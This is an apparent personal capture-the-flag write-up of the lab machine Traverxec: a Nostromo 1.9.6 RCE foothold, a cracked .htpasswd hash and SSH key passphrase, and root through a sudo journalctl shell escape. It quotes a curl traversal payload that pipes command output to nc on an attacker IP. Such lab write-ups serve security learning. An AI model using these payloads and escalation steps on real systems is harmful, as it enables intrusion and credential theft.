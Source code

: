 # <span style="color:#FF9966">Machine #18 Traverxec</span>  


## <span style="color:#FF9966">Notes During Working on the Machine 🧐🤓   

* Web server being used called "Nostromo" version 1.9.6.
* Seems like it's vulnerable to an RCE.
* But the code searchsploit provides sucks I'll try and find another one.
* That if the website is even vulnerable to it. 
* I've got a reverse shell using the exploit. Seems like the exploit was right on spot
* Now let's get to priv esc.
* I got a password for david hopefully he's reusing it.
  ```cmd
  -rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                 
  david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
  ```  
* Cracked the password Nowonly4me.
* This password is useless I tried it with SSH david, su, as the password for sudo of www-data, ssh root, su root and even sshed on localhost.

* The Nostromo web server was vulnerable to the easiest rce I've ever encountered (v1.9.6) so I got access as www-data easily.
* What I've tried and found so far  
  * A useless password of david's that I cracked. UPDATE Maybe I can make a list of all permutations possible for the password I found and brute force the SSH (But it seems impossible).
  * A nameserver IP address.
  * The sudo version is vulnerable (1.8.27) but not in my current user.
  * There's a kernel exploit for the Linux version we have (I'm gonna try it & if it works look for the intended way then).
  * No sign of any DBs. UPDATE I can't run any kernel exploit because there's no c compiler on the victim. 
  * The log file "wtmp" maybe I can transfer it to my box through `nc` & then try & find a way of reading it.
  * The processes seem to be borningly legit. UPDATE DEADEND.
  * No interesting crons.
  * No interesting SUID.
  * No interesting capabilities.
* Maybe the web server is what will et me David because he's the admin. UPDATE I've researched the web server's files nothing seems interesting.
* David is in a number of groups the most interesting one seem to be `video` which seems also useless at the moment [netdev, video, plugdev, floppy, cdrom, audio, dip].
* This turned out to be the freaking directory's name `public_www` that opens in browser
* I have the ssh key but the password I have is not working as a passphrase for the key. I will try and bruteforce it.
* Found it and it's `hunter`
<br/><br/>


## <span style="color:#FF9966">How Did I Solve the Machine 😎🥳 
1. I found an http service with Nostromo web server version 1.9.6 which had a directory traversal vulnerability with an exploit python code that was easy to use.
2. I got foothold on the system as `www-data` and I scoured the system for something until I realized that the conf file of the web server had something.
3. It turned out that with Nostromo we can access the home directories on the system which meant we can access david's home unless he stops me from doing so.
4. So I was able to access the home of david but at first I wasn't really sure what I can access inside of it.
5. Finally, I realized that there's a directory called `www_public` that's the root of the david home that is accessed through the browser and I was able to list the insides of this directory to find out that there is a zip file that has a backup of the home of david with the information of the SSH.
6. Then I had to bruteforce the ssh key with `ssh2john.py` and then `john` to find out the passphrase of the key and this way I got david.
7. Root was relatively easy because I was able to `sudo journalctl` and when opening something with it as I found in "gtfobins" we can write `!/bin/sh` which opens a root shell.

<br/><br/>



## <span style="color:#FF9966">Where I Got Stuck?😡😧  

* I haven't read the configuration file of the web server properly. I should've looked for nostromo's documentation and found out what everything in the file meant because I was looking for a way to access david's directory and the word `/home` should've been a hint for me to think of this config file. 

<br/><br/>



## <span style="color:#FF9966">What Did I learn from this Machine?👀  

* That sometimes there could be directories that I don't have read permissions to but I have read permissions to its children. To the files inside of it.

<br/><br/>



## <span style="color:#FF9966">Writeups ✍🏽📓   

### 0xdf hacks stuff  

* He didn't use the exploit code but tried to exploit the vulnerability on his own by using `curl` as follows  

  ```
  curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d "id | nc 10.10.14.6 443"
  ```
* In the previous code he sent a POST request with `curl` and then piped the output into an `nc [their IP] 443` and that he will be listening on the port `443` to get the output their[I like the idea].

<br/><br/>




<!-- @nested-tags:machines/directory_traversal/Traverxec,machines/screwed_up_permissions/Traverxec-->